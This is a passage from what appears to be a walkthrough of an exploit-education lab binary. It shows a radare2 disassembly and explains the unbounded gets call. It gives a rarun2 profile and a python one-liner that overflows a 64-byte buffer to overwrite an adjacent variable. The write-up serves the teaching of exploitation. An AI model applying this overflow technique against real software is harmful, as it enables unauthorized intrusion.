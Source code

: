 ```nasm
| add esp, 0x10                                                   |   | add esp, 0x10                                                                       |
| jmp 0x8048515                                                   |   `-------------------------------------------------------------------------------------'
`-----------------------------------------------------------------'       v
    v                                                                     |
    |                                                                     |
    '--------------------------------------------------------.            |
                                                             | .----------'
                                                             | |
                                                       .-----------------------------------.
                                                       |  0x8048515                        |
                                                       | ; CODE XREF from main @ 0x8048503 |
                                                       | sub esp, 0xc                      |
                                                       | push 0                            |
                                                       | ; sym..interp+0x1ec               |
                                                       | call sym.imp.exit;[oc]            |
                                                       `-----------------------------------'
```

There are a few things that can be seen from the disassembled main function:
1. There are two local variables:
    * `var_4ch`, which is the buffer where the input from STDIN is saved at and it has a size of `0x4c-0xc=0x40` (64 bytes in decimal).
    * `var_ch`, which is a 32-bit integer.
1. There is a call to `gets` with `var_4ch` as an argument at `0x080484e4`. `gets` does not restrict the size of bytes that are to be read and is, thus, vulnerable to stack-based buffer overflow.
1. The objective is to change the value of `var_ch`, which is tested at address `0x080484ef`.

## Exploit

With that in mind, to exploit this binary the input must have a size of, at least, 65 bytes (64 is the size of the buffer and to overwrite the value of `var_ch` one more byte at minimum is needed).

Before opening the binary in debugger mode using `radare2`, a `rarun2` profile is needed so that the input can be read from the binary. In order to do that, a file needs to be created with the following contents:

```shell
#!/usr/bin/env rarun2
stdio=/dev/pts/0
stdin=./pattern
```

*Replace `/dev/pts/0` with the output of the command `tty` and `./pattern` with the full path to the file that contains the input to be read from the binary.*

One more thing that is essential is a file that contains the input. For that, python3 is going to be used.

```python
#!/usr/bin/env python3
print("X"*64 + "AAAA")
```


[exploit-education]: https://exploit.education/downloads/
[rabin2-docs]: https://r2wiki.readthedocs.io/en/latest/tools/rabin2/